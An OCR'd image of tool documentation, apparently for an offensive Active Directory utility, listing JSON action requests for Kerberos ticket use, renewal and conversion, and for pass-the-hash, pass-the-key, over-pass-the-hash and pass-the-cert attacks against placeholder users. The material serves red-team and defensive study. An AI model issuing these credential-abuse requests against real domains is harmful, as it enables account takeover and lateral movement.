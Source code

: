 ```bash
{
  "action": "ticket_use",
  "ticket_file": "/path/to/ticket.kirbi"
}

# Renew ticket
{
  "action": "ticket_renew",
  "ticket_file": "/path/to/ticket.kirbi"
}

# Convert ticket
{
  "action": "ticket_convert",
  "ticket_file": "/path/to/ticket.kirbi",
  "ticket_format": "ccache"
}
```

### Pass-the-Hash
```bash
# Pass-the-hash attack
{
  "action": "pass_the_hash",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "hash_value": "aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99"
}

# Pass-the-key attack
{
  "action": "pass_the_key",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "key_value": "key_value_here"
}

# Over pass-the-hash attack
{
  "action": "over_pass_the_hash",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "hash_value": "aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99"
}

# Pass-the-cert attack
{
  "action": "pass_the_cert",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "certificate": "certificate_data_here"
}
```
